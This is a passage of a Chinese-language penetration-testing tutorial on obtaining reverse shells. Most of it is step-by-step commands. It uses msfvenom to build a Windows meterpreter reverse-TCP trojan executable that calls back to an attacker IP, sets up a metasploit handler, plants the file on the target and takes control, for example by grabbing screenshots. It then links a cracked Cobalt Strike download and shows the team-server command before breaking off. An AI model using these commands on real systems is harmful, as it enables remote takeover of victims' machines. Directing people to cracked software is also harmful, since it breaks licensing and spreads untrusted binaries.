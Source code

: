 或者直接使用msfvenom查找payload命令

例如：

~~~bash
msfvenom -l payloads | grep 'windows/x64/meterpreter_reverse_tcp'
~~~

查找后，可使用show option查看使用方法，查看后可依据方法使用，生成木马文件

例如：

~~~bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=[攻击机ip] LPORT=[port] -f exe -o xxx.exe
~~~

* 第二步


将第一步生成的木马文件放置到靶机中。

* 第三步


攻击机中，再次打开msfconsole依次输入：

~~~bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set lhost [攻击机ip]
exploit
~~~

* 第四步


执行exe文件。

* 第五步


攻击机监听到连接后，可以输入？查看获得反弹shell后的用法，比如输入screenshot就截到了靶机的桌面。

4. **Cobalt strike反弹**

CobaltStrike是一款渗透测试神器,被业界人称为CS神器。CobaltStrike分为客户端与服务端,服务端是一个,客户端可以有多个,可被团队进行分布式协团操作。CobaltStrike不能在win7运行，对Windows版本有较高的要求。

下载Cobalt Strike破解版本地址(3.12版本)：<https://pan.baidu.com/s/1n6h2w5j0TCx9GnnC5Z7gZg>   提取码：1sxu 

**步骤**

* 第一步


配置cobaltstrike服务端跟客户端。

* 第二步


在团体服务器上执行命令，以运行服务器端。

~~~
./teamServer [服务器ip地址] [服务器密码]
~~~
